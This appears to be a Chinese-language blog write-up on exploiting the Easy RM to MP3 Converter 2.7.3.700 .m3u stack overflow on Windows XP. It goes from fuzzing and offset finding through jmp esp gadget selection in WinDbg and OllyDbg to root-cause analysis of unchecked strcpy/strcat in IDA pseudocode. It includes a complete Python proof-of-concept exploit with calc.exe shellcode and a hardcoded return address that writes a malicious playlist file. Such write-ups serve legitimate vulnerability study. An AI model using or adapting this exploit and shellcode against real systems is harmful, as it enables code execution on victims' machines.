









Author：wnagzihxain
Mail：tudouboom@163.com
Platform: Windows XP sp3
说实话，这次的调试很是尴尬，因为这个漏洞的分析以前在很多地方见过
看雪：【原创】对Easy RM to MP3 Converter 2.7.3.700的栈溢出漏洞分析
乌云知识库：Easy RM to MP3 Converter(2.7.3.700)栈溢出漏洞调试笔记
还有泉哥他们翻译的老外的文章
那么当时文章都有提到一点：填充块的大小不确定，jmp esp的地址需要自己寻找，因为平台不一样，所以这是正常的，找jmp esp那是分分钟的事，可是自己调试的时候却遇到各种坑，很是尴尬，但是这些报告都没有分析溢出原因，下面宝宝来独家记录下这次的调试过程，包括定位漏洞现场，溢出原因，jmp esp的选择，以及poc的构造等等，板凳搬好
下面确定填充块大小的过程的过程使用乌云知识库的部分，因为我觉得实在是讲的比我好
打开Easy RM to MP3 Converter，加载具有10000个字符A的crash.m3u无效文件，我们发现目标软件捕获了该错误，跳出友好提示
程序抛出一个错误，但是看起来这个错误被程序异常处理例程捕捉到了，程序并没崩掉
调整字符个数，继续运行，目标软件在20000和30000之间可以崩溃掉
很明显，EIP 0x41414141是crash.m3u中的数据，说明程序返回地址被覆盖，EIP跳转到0x41414141，但找不到可执行的指令，所以报错
同时，从图中可以看出程序的EIP也可以被我们填充成一个指向恶意代码的地址


如果使用二分法，用25000个A和5000个B填充m3u文件，如果EIP变为41414141（AAAA），那么返回地址就位于20000到25000之间，如果EIP变为42424242（BBBB）那么返回地址就位于25000到30000之间

使用25000A + 5000B，可以看到EIP为42424242（BBBB），所以返回地址位于25000到30000之间了

根据调试信息，返回返回地址为42424242，说明ESP指向的返回地址已经弹出到EIP，则在内存中，栈顶指针ESP会指向EIP的下一个位置，如上图所示
查看esp中的数据d esp

寻找存放shellcode的地址空间原理
根据函数调用的堆栈平衡原理，缓冲区溢出之后，ESP应该停留在函数（这里假设为：XXCopy）调用之前所在位置上
也就是说，覆盖完EIP之后继续填充的数据都将保存在ESP所指地址中

我们用BBBB重写了EIP和可以看到ESP所指的缓冲区。在我们调整脚本之前，需要精确的定位出来返回地址在缓冲区的位置，因为如果填充的都是AAAABBBB之类的，区分度不够高
调用metasploit中自带的工具
root@kali:/opt/metasploit/apps/pro/msf3/tools# ./pattern_create.rb 5000</pre>



重写EIP前面需要覆盖的缓冲区长度，创建一个文件，填充25000 + 1069个A，再加4个B，EIP应该就会被重写成为42424242


d esp

26061 + 4 + 4 = 26069
Buffer EBP EIP ESP 指向位置
A（x 26061） AAAA BBBB CCCCCCCCCCCCCCCCCCCCC
414141414141414141414141...41 41414141 4242424242
26061 bytes 4bytes 4bytes

当函数返回，BBBB被置入EIP中pop ebp，retn,所以流程尝试到地址0x42424242（BBBB）执行，找内存空间存放我们的shellcode
为了让应用程序崩溃，我们已经向内存中写入了26069个A，我们已经向保存的EIP存储空间写入了一个新的值（函数返回执行时，RET将弹出并跳转到这个值），我们已经写了一堆的字符C
当应用程序崩溃时，可以查看所有这些寄存器（D ESP，D EAX，D EBX，D EBP，...）
如果你能在这些寄存器中的一个，看到缓冲区里的值（无论是A，还是C），那么你或许可以用shellcode取代它们的值，并跳转到该位置
在我们的例子中，我们可以看到，ESP似乎指向我们的C，所以理想情况下，我们会用实际的shellcode取代C，告诉EIP跳转到ESP的地址



直接跳到一个内存地址不是一个好的方法
000ff730包含了字符串终止符（NULL： 00） ...
所以你看到来自缓冲区第一部分的字母A...
我们无法到达重写EIP后我们的数据了....
另一方面，在Exploit使用内存地址直接跳转是非常不可靠的...
因为内存地址会因为系统版本，语言等的不同而不同

windbg中输入a，然后再输入jmp esp，报错，直接回车，返回命令输入界面
然后u jmp esp之前的地址

在地址7c90120e，你可以看到ffe4，这是操作码JMP ESP
现在，我们需要在这些加载的DLL中的某一个，找到这个操作码（opcode）
查看WinDbg窗口，可以容易找到属于Easy RM to MP3应用程序的DLL

如果我们能够在这些DLL中找到一个操作码，那么我们就可以在Windows平台上制作可靠的漏洞利用程序
如果我们使用属于操作系统的DLL，那么我们可能会发现，漏洞利用程序在其他版本的操作系统上无法正常工作
因此，我们在C:\Program Files\Easy RM to MP3 Converter\MSRMCcodec02.dll中搜索操作码
此DLL在地址01c20000和020ed000之间加载，搜索操作码FF E4
s 01c20000 020ed000 ff e4

当选择一个地址时，寻找空字节是很重要的
你应该尽量避免使用地址中含有空字节，空字节将成为一个字符串结束符，那么缓冲区数据其余的部分将变得不可用
s 70000000 l fffffff ff e4

因为我们希望把我们的shellcode放入ESP中（在覆盖的EIP之后放置载荷payload），从列表中选出的JMP ESP地址空间中不能有NULL字节
空字节作为一个字符串结束，因此所有在它后面的内容会被忽略
我们在覆盖的EIP之后放置我们的shellcode，这个地址不能包含空字节
第一个地址起作用的地址是0x01ddf23a
输入命令可以验证这个地址是否含有jmp esp（在地址01ccf23a处反汇编指令）
u 01ddf23a

------------------------------------华丽结束-----------------------------------
然后我遇到了各种坑，到现在还不知道怎么回事，jmp esp一直出错，最后我直接在OD里找了个jmp esp来用，过程如下
生成了poc文件后用软件打开，如下图

然后点击取消用OD调试，在代码段右击查找所有命令，搜jmp esp，选一个可以用的就行

给上我的最终poc
# !/usr/bin/python
#using = utf-8
# Title: Easy RM to MP3 Converter 2.7.3.700 (.m3u) Universal BOF Exploit
# software: Easy RM to MP3 Converter
# version : 2.7.3.700
import sys
import struct
# calc.exe - 85 bytes
shellcode =("\x55\x8B\xEC\x33\xC9\x83\xEC\x20\xB8\x4D\x53\x56\x43\x89\x45\xF4\xB8\x52"
"\x54\x2E\x44\x89\x45\xF8\xB8\x4C\x4C\x4C\x4C\x89\x45\xFC"
"\x88\x4D\xFE\x8D\x45\xF4\x50\xB8\x77\x1D\x80\x7C\xFF\xD0\xB8\x63\x61"
"\x6C\x63\x89\x45\xE4\xB8\x2E\x65\x78\x65\x89\x45\xE8\x8D\x45\xE4"
"\x33\xC9\x88\x4D\xEC\x50\xB8\xC7\x93\xBF\x77\xFF\xD0\x83\xC4\x20\x8B"
"\xE5\x5D\xC3")
junk = "BBBB" + "\x41" * 26058
eip = struct.pack('L', 0x01e52ec0)
nops = "\x90" * 4
exploit = junk + eip + nops + shellcode + nops
try:
file = open("exploit.m3u","w")
file.write(exploit)
file.close()
print "[+] File created"
except:
print "[x] Could not create file"
作为参考，如果有同学想自己调试也需要自己确定填充块的大小和jmp esp的地址
其实一般来说到这里也就差不多了，但是！！！！！！OD和IDA Pro在小书包里说它们两个也要出来玩，作为良心用户，那我就继续写点
接下来就来分析一下溢出原因
根据poc可以看出来，在调用某个call的时候会读取poc文件里面的内容，然后进行strcpy之类的操作导致缓冲区溢出，溢出的数据覆盖了返回地址，返回地址被我们构造的jmp esp覆盖，然后跳到我们构造的shellcode起始位置执行，大概是这么猜测，具体细节还是需要到调试器里面才能看出来
用windbg附加，然后载入poc文件，看kvn
(44c.ac): Access violation - code c0000005 (first chance)
First chance exceptions are reported before any exception handling.
This exception may be expected and handled.
eax=61727473 ebx=00104a58 ecx=00cf0000 edx=00cf0000 esi=77c2fce0 edi=0000662f
eip=01e52ecf esp=000ff730 ebp=00394428 iopl=0 nv up ei pl nz na pe nc
cs=001b ss=0023 ds=0023 es=0023 fs=003b gs=0000 efl=00010206
*** WARNING: Unable to verify checksum for C:\Program Files\Easy RM to MP3 Converter\MSRMCcodec02.dll
*** ERROR: Symbol file could not be found. Defaulted to export symbols for C:\Program Files\Easy RM to MP3 Converter\MSRMCcodec02.dll -
MSRMCcodec02!CAudioOutWindows::WaveOutWndProc+0x1fc7f:
01e52ecf 8b00 mov eax,dword ptr [eax] ds:0023:61727473=????????
*** ERROR: Symbol file could not be found. Defaulted to export symbols for C:\WINDOWS\system32\kernel32.dll -
*** ERROR: Symbol file could not be found. Defaulted to export symbols for C:\WINDOWS\system32\msvcrt.dll -
0:000> kvn
# ChildEBP RetAddr Args to Child
WARNING: Stack unwind information not available. Following frames may be wrong.
00 000ff72c 33ec8b55 20ec83c9 56534db8 f4458943 MSRMCcodec02!CAudioOutWindows::WaveOutWndProc+0x1fc7f
01 000ff730 20ec83c9 56534db8 f4458943 2e5452b8 0x33ec8b55
02 000ff734 56534db8 f4458943 2e5452b8 f8458944 0x20ec83c9
03 000ff738 f4458943 2e5452b8 f8458944 4c4c4cb8 0x56534db8
04 000ff73c 2e5452b8 f8458944 4c4c4cb8 fc45894c 0xf4458943
05 000ff740 f8458944 4c4c4cb8 fc45894c 8dfe4d88 0x2e5452b8
06 000ff744 4c4c4cb8 fc45894c 8dfe4d88 b850f445 0xf8458944
07 000ff748 fc45894c 8dfe4d88 b850f445 7c801d77 0x4c4c4cb8
08 000ff74c 8dfe4d88 b850f445 7c801d77 63b8d0ff 0xfc45894c
09 000ff750 b850f445 7c801d77 63b8d0ff 89636c61 0x8dfe4d88
0a 000ff754 7c801d77 63b8d0ff 89636c61 2eb8e445 0xb850f445
0b 000ff758 63b8d0ff 89636c61 2eb8e445 89657865 kernel32!LoadLibraryExA+0x24
0c 000ff75c 89636c61 2eb8e445 89657865 458de845 0x63b8d0ff
0d 000ff760 2eb8e445 89657865 458de845 88c933e4 0x89636c61
0e 000ff764 89657865 458de845 88c933e4 b850ec4d 0x2eb8e445
0f 000ff768 458de845 88c933e4 b850ec4d 77bf93c7 0x89657865
10 000ff76c 88c933e4 b850ec4d 77bf93c7 c483d0ff 0x458de845
11 000ff770 b850ec4d 77bf93c7 c483d0ff 5de58b20 0x88c933e4
12 000ff774 77bf93c7 c483d0ff 5de58b20 909090c3 0xb850ec4d
13 000ff778 c483d0ff 5de58b20 909090c3 41410090 msvcrt!system
有没有一种分分钟掀桌的感觉啊(╯‵□′)╯︵┻━┻
不着急，这里看不出来那就换条路，行走江湖看的就是经验，要是有同学有不同的办法欢迎提出来一起交流啊
小书包里掏出OD，载入后打开poc文件，结果说什么不可执行报错了，看来是这个exp没写好，那我们就来修改一下poc，我们直接填充junk = "BBBB" + "\x41" * 26054 + "BBBB"，就填充这一个junk，前后都用B是为了比较容易确认
然后呢，不着急，我们来设置下断点，因为我们没有覆盖返回地址前所有报错都不会导致崩溃，只是会被捕捉到异常而已，所以在打开poc文件瞬间下个断点那是很有必要哒（´∀｀*)
载入poc文件的时候，会有一个Load，那么我们搜索Load字符串，然后在调用处下断，这个就不用宝宝写出来了吧，最后一步一步出来，最终就是这个位置设置断点
00416834 . E8 876F0000 call RM2MP3Co.0041D7C0
00416839 . 5E pop esi ; ntdll.7C92DA4A
0041683A . C3 retn
这个call就是载入poc文件的，点击打开后就会跳到
00416839 . 5E pop esi ; ntdll.7C92DA4A</pre>
所以我们断点设置在这个pop处
现在的话填充物构造好了，断点也设置好了，那么就剩运行起来观察了
F9走起
走起并没有什么用，因为填充块是在太大，想要有直观的感受有点困难
怎么办？
上IDA Pro
小书包掏出IDA，找到刚才的断点，代码如下
int __thiscall sub_41D7C0(void *this)
{
void *v1; // ebp@1
int v2; // ebx@3
int v3; // edx@3
int v8; // eax@5
int v9; // esi@5
void *v10; // edi@5
void *v13; // ebx@7
void *i; // esi@7
unsigned int v15; // edi@9
int v16; // esi@10
signed int v17; // esi@10
int v18; // eax@12
int v19; // eax@13
signed int v20; // edx@14
char *Str; // [sp+10h] [bp-220h]@10
int j; // [sp+14h] [bp-21Ch]@10
int v24; // [sp+18h] [bp-218h]@5
char v25; // [sp+1Ch] [bp-214h]@9
int v26; // [sp+22Ch] [bp-4h]@9
v1 = this;
sub_432C30(4, aKeyOnloadfiles, aDMpf2_0Mpf_gui, 5053);
*(_DWORD *)((char *)v1 + 137502) = 0;
if ( dword_47BDE8 )
dword_47BDE8(&unk_470FAC);
v2 = *(_DWORD *)((char *)v1 + 137542);
v3 = *(_DWORD *)((char *)v1 + 137538);
v8 = *(_DWORD *)((char *)v1 + 137542);
*(_DWORD *)((char *)v1 + 137542) = v3;
v9 = *(_DWORD *)((char *)v1 + 137526);
v10 = *(void **)((char *)v1 + 137522);
v24 = v8;
v13 = *(void **)((char *)v1 + 137526);
for ( i = v10; i != v13; i = (char *)i + 4 )
sub_413850(i, 0);
*(_DWORD *)((char *)v1 + 137526) = v10;
v15 = 0;
dword_47BEA8 = 0;
sub_4108F0(1, 0, 0, 1573384, aRealMeda_ra_ra, 0);
v26 = 0;
if ( sub_410A50((CFileDialog *)&v25) == 1 )
{
CString::CString(&Str);
v16 = *(_DWORD *)((char *)v1 + 9855) - 16;
LOBYTE(v26) = 1;
v17 = v16 != 0 ? 6 : 1024;
for ( j = sub_410BA0(&v25); j; ++v15 )
{
if ( v15 >= v17 )
break;
v18 = sub_410AC0(&v24, &j);
LOBYTE(v26) = 2;
CString::operator=(&Str, v18);
LOBYTE(v26) = 1;
CString::~CString((CString *)&v24);
sub_41B7E0(Str);
}
v19 = *(_DWORD *)((char *)v1 + 137538);
if ( v19 )
{
v20 = (signed int)((unsigned __int64)(1960787567i64 * (*(_DWORD *)((char *)v1 + 137542) - v19)) >> 32) >> 12;
if ( ((unsigned int)v20 >> 31) + v20 )
PostMessageA(*((HWND *)v1 + 8), 0x403u, 0, 0);
}
LOBYTE(v26) = 0;
CString::~CString((CString *)&Str);
}
v26 = -1;
return sub_410960((CDialog *)&v25);
}
发现第一个函数很可疑，跟进去看看
sub_432C30(4, aKeyOnloadfiles, aDMpf2_0Mpf_gui, 5053);
void sub_432C30(int a1, char *Format, ...)
{
char *v2; // ebx@2
char DstBuf; // [sp+8h] [bp-200h]@1
va_list va; // [sp+214h] [bp+Ch]@1
va_start(va, Format);
memset(&DstBuf, 0, 0x200u);
if ( dword_47BEAC )
{
vsnprintf(&DstBuf, 0x200u, Format, va);
v2 = (char *)malloc(strlen(&DstBuf) + 64);
if ( v2 )
{
strcpy(v2, aUiTrace);
strcat(v2, &DstBuf);
dword_47BEAC(a1, v2);
free(v2);
}
else
{
dword_47BEAC(a1, &DstBuf);
}
}
}
中间那几个有长度限制的复制和输出，导致在堆栈里出现好几个那种开头是四个B但是结束的时候是A的填充块，原因就在这
int __thiscall sub_41B7E0(void *this, char *Str)
{
void *v2; // ebx@1
int result; // eax@1
char *v4; // edi@2
FILE *v5; // esi@12
__int32 v6; // edi@15
void *v7; // ecx@16
int v8; // edx@16
int v9; // ebx@16
signed int v10; // edx@16
void *v11; // ebp@16
int v12; // esi@17
int v13; // edi@18
int v14; // edx@21
signed int v15; // edx@22
int v16; // esi@23
int v17; // ecx@23
void *v18; // eax@25
void *v19; // edi@25
void *v20; // eax@25
int v21; // eax@29
void *v22; // eax@30
void *v23; // edi@31
int v31; // [sp-Ch] [bp-4930h]@8
int *v32; // [sp-4h] [bp-4928h]@8
void *v33; // [sp+10h] [bp-4914h]@25
void *v34; // [sp+14h] [bp-4910h]@25
char DstBuf; // [sp+18h] [bp-490Ch]@1
unsigned int v36; // [sp+418h] [bp-450Ch]@1
char ArgList; // [sp+41Ch] [bp-4508h]@8
char v38; // [sp+2724h] [bp-2200h]@1
v2 = this;
result = 0;
memset(&v38, 0, 0x2200u);
memset(&v36, 0, 0x230Cu);
memset(&DstBuf, 0, 0x400u);
if ( Str )
{
v4 = Str;
if ( strlen(Str) - 1 >= strlen(Str1) - 1 )
v4 = Str1;
if ( !strnicmp(Str1, Str, strlen(v4) - 1) && !dword_47BD31 )
{
strcpy(&v38, aRtsp);
strcat(&v38, Str + 3);
strcpy(Str, &v38);
}
if ( !sub_431900(Str) )
{
strcpy(&ArgList, Str);
v36 = strlen(Str);
sub_432C30(-1, aSIsAddedToTheS, &ArgList);
v32 = (int *)&v36;
v31 = *(_DWORD *)((char *)v2 + 137542);
LABEL_39:
sub_422E90(v31, 1, v32);
return 1;
}
if ( !*(_DWORD *)((char *)v2 + 25702) || !*(_DWORD *)((char *)v2 + 25706) )
{
strcpy(&ArgList, Str);
v36 = strlen(Str);
sub_432C30(-1, aSIsAddedToTheS, &ArgList);
v32 = (int *)&v36;
v31 = *(_DWORD *)((char *)v2 + 137542);
goto LABEL_39;
}
if ( sub_431330(Str) )
goto LABEL_42;
result = (int)fopen(Str, aRb);
v5 = (FILE *)result;
if ( !result )
return result;
fread(&DstBuf, 1u, 0x400u, (FILE *)result);
if ( fseek(v5, 0, 2) )
return 0;
v6 = ftell(v5);
fclose(v5);
if ( v6 <= 0x40000 )
{
LABEL_42:
sub_418D30(2);
sub_41E2B0(Str);
result = 1;
}
else
{
strcpy(&ArgList, Str);
v36 = strlen(Str);
sub_432C30(-1, aSIsAddedToTheS, &ArgList);
v7 = *(void **)((char *)v2 + 137542);
v8 = *(_DWORD *)((char *)v2 + 137546);
v9 = (int)((char *)v2 + 137534);
v10 = (signed int)((unsigned __int64)(1960787567i64 * (v8 - (signed int)v7)) >> 32) >> 12;
v11 = v7;
if ( ((unsigned int)v10 >> 31) + v10 >= 1 )
{
sub_423250(v7, v7, (char *)v7 + 8972);
sub_423290(*(_DWORD *)(v9 + 8), 1 - (*(_DWORD *)(v9 + 8) - (signed int)v11) / 8972, &v36);
v22 = *(void **)(v9 + 8);
if ( v11 == v22 )
{
*(_DWORD *)(v9 + 8) += 8972;
result = 1;
}
else
{
do
{
v23 = v11;
v11 = (char *)v11 + 8972;
qmemcpy(v23, &v36, 0x230Cu);
}
while ( v11 != v22 );
*(_DWORD *)(v9 + 8) += 8972;
result = 1;
}
}
else
{
v12 = *(_DWORD *)(v9 + 4);
if ( !v12 || (v13 = (signed int)((char *)v7 - v12) / 8972, (unsigned int)v13 <= 1) )
v13 = 1;
if ( v12 )
{
v15 = (signed int)((unsigned __int64)(1960787567i64 * (signed int)((char *)v7 - v12)) >> 32) >> 12;
v14 = ((unsigned int)v15 >> 31) + v15;
}
else
{
v14 = 0;
}
v16 = v14 + v13;
v17 = v14 + v13;
if ( v14 + v13 < 0 )
v17 = 0;
v18 = operator new(8972 * v17);
v34 = v18;
v19 = v18;
v20 = *(void **)(v9 + 4);
v33 = *(void **)(v9 + 4);
if ( v20 != v11 )
{
while ( 1 )
{
sub_423310(v19, v20);
v19 = (char *)v19 + 8972;
v33 = (char *)v33 + 8972;
if ( v33 == v11 )
break;
v20 = v33;
}
}
sub_423290(v19, 1, &v36);
sub_423250(v11, *(_DWORD *)(v9 + 8), (char *)v19 + 8972);
nullsub_2(*(_DWORD *)(v9 + 4), *(_DWORD *)(v9 + 8));
operator delete(*(void **)(v9 + 4));
*(_DWORD *)(v9 + 12) = (char *)v34 + 8972 * v16;
v21 = sub_422E10(v9) + 1;
*(_DWORD *)(v9 + 4) = v34;
*(_DWORD *)(v9 + 8) = (char *)v34 + 8972 * v21;
result = 1;
}
}
}
return result;
}
其实这些都是不重要的
重要的还是strcpy，strcat等函数的使用，检查好边界，不管是开发还是审计还是测试还是攻击，攻防兼备，才能刷的动seebug，早日买上HHKB PRO2